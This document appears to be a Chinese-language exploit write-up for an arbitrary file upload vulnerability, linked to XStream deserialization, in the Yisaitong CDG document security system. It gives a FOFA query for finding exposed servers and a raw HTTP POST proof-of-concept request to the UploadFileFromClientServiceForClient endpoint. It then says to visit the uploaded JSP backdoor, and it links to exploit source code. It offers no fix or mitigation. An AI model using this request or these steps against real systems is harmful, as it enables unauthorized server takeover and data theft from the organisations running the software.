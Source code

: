 ```yaml
---
title: 亿赛通电子文档安全管理系统XStream反序列化漏洞任意文件上传利用
date: 2024-09-29 17:50:52
tags:
---
```

一、产品简介
亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。
二、漏洞描述
亿赛通电子文档安全管理系统UploadFileFromClientServiceForClient接口处存在任意文件上传漏洞，未经授权的攻击者可通过此漏洞上传恶意后门文件，从而获取服务器权限。
三、影响范围
未知
四、复现环境
FOFA：app=“亿赛通-电子文档安全管理系统”
五、漏洞复现
1.访问存在漏洞网站，抓包
2.POC
```angular2html
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
Host: IP：port
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1


上传的文件内容
```
3.测试，上传成功
4.访问ip:port/tttT.jsp


利用源码：https://github.com/candyadmin/CDGXStreamDeserRCE
教程：
https://www.yuque.com/u34516370/hi2ux9/nibcqge2832vptra
https://blog.csdn.net/uuzeray/article/details/136690493
